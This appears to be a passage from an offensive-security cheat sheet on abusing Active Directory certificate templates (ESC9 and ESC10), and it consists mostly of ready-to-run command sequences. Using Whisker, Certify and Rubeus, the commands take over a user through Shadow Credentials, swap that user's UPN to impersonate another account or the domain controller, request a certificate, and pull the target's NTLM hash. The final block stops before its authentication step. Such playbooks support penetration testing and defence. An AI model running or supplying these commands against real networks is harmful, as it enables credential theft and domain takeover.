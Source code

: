 #### Windows

**ESC9**

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**. **user2** is allowed to enroll in a vulnerable template that specifies the `CT_FLAG_NO_SECURITY_EXTENSION` flag in the `msPKI-Enrollment-Flag` value.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to user3
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
#Request vulnerable certif with user2
Certify.exe request /ca:'contoso\ca' /template:"Vulnerable template"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
#Authenticate with the certif and obtain user3 hash during UnPac the hash
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /show
```

**ESC10 - Case 1**

Here, **user1** has `GenericWrite` against **user2** and want to compromise **user3**.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to user3
Set-DomainObject user2 -Set @{'userPrincipalName'='user3'} -Verbose
#Request authentication certif with user2
Certify.exe request /ca:'contoso\ca' /template:"User"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
#Authenticate with the certif and obtain user3 hash during UnPac the hash
Rubeus.exe asktgt /getcredentials /certificate:"BASE64_CERTIFICATE" /password:"CERTIFICATE_PASSWORD" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /show
```

**ESC10 - Case 2**

Here, **user1** has `GenericWrite` against **user2** and want to compromise the domain controller **DC$@contoso.local**.

```powershell
#Retrieve user2 creds via Shadow Credentials
Whisker.exe add /target:"user2" /domain:"contoso.local" /dc:"DOMAIN_CONTROLLER" /path:"cert.pfx" /password:"pfx-password"
#Change user2 UPN to DC$@contoso.local
Set-DomainObject user2 -Set @{'userPrincipalName'='DC$@contoso.local'} -Verbose
#Request authentication certif with user2
Certify.exe request /ca:'contoso\ca' /template:"User"
#user2 UPN change back
Set-DomainObject user2 -Set @{'userPrincipalName'='user2@contoso.local'} -Verbose
```
